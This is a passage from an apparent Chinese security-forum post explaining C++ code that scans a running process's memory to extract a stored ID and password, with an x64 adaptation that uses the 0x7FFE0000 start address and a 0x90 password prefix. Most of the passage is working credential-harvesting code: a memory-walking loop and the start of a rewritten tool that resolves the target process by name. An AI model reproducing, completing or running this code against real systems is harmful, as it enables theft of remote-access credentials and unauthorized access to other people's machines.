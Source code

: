 ```c++
                //如果id_temp和password_temp都为1说明已经都取到了就可以跳出循环了
            }
            break;
        }
        StartAddress += mbi.RegionSize;             //不是就加上当前内存块大小继续遍历
    } while (StartAddress <= EndAddress);
}
```

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-077be43d4d69a3a8cefc456749787b9d146c0dbb.png)

0x05 代码实现 x64
-------------

64位中线程的内存地址都比进程基址小了，就是存有ID密码的内存都到进程上面了

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-89ff731e0adcb4e3d75c02646a7e26cf394b0a4d.png)

都是7FFE0000开始，这样就不用先得到进程基址，可以直接遍历

还有在64位中密码开头的数字变成了0x90，这也是需要改下的，别的基本都是相同的

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d13085f352250d13f0003fc20797e800545d7f1f.png)  
贴一下修改后的代码

```c++
#include<stdio.h>
#include<Windows.h>
#include <dbghelp.h>
#pragma comment(lib,"dbghelp.lib")
#include <shlwapi.h>
#include "tlhelp32.h"
#include <psapi.h>
#include <regex>

#if _WIN64
_int64 EndAddress = 0x0007FFFFFFFF0000;
#else
int EndAddress = 0X7FFF0000;
#endif                          //根据位数不同遍历的地址大小不同
using namespace std;

typedef enum _MEMORY_INFORMATION_CLASS {
    MemoryBasicInformation,
    MemoryWorkingSetList,
    MemorySectionName,
    MemoryBasicVlmInformation
} MEMORY_INFORMATION_CLASS;

typedef NTSTATUS(WINAPI* fnZwQueryVirtualMemory) (
    HANDLE ProcessHandle,
    PVOID BaseAddress,
    MEMORY_INFORMATION_CLASS MemoryInformationClass,
    PVOID MemoryInformation,
    SIZE_T MemoryInformationLength,
    PSIZE_T ReturnLength
    );

int GetPidByName(PCWCHAR procName) {
    HANDLE ProcessId = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
    if (ProcessId == NULL) {
        printf("Fail");
    }
    PROCESSENTRY32 te32 = { 0 };
    te32.dwSize = sizeof(te32);
```